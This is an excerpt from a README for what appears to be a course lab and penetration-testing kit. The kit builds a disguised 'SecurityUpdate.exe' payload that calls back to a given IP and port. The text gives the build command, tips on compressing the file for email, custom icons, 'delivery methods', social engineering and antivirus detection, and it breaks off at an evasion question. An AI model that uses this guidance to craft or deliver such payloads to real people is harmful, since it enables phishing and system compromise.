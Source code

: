 ### Issue: File too large for email

```bash
# Compress before sending
zip SecurityUpdate.zip SecurityUpdate.exe
# Reduces to ~5 MB
```

---

## 🎯 Next Steps

### For DES484 Students:

1. ✅ Read EXECUTABLE_GUIDE.md
2. ✅ Build Windows .exe for lab
3. ✅ Test in safe VM environment
4. ✅ Document your findings
5. ✅ Try different delivery methods
6. ✅ Analyze with Wireshark
7. ✅ Test AV detection
8. ✅ Write remediation recommendations
9. ✅ Present in class

### For Penetration Testers:

1. ✅ Build for target platform
2. ✅ Create custom icons
3. ✅ Test thoroughly first
4. ✅ Get authorization in writing
5. ✅ Deploy via agreed method
6. ✅ Document all activities
7. ✅ Report findings professionally
8. ✅ Help client improve security

---

## 📞 Need Help?

### Question: How do I build an executable?

**Answer:** Run `python3 build_executable.py YOUR_IP 5555 windows`

### Question: Which is better, .exe or .py?

**Answer:** Executable (.exe) is much better for social engineering!

### Question: How do I add a custom icon?

**Answer:** See `icons/README.md` for instructions

### Question: Will antivirus detect it?
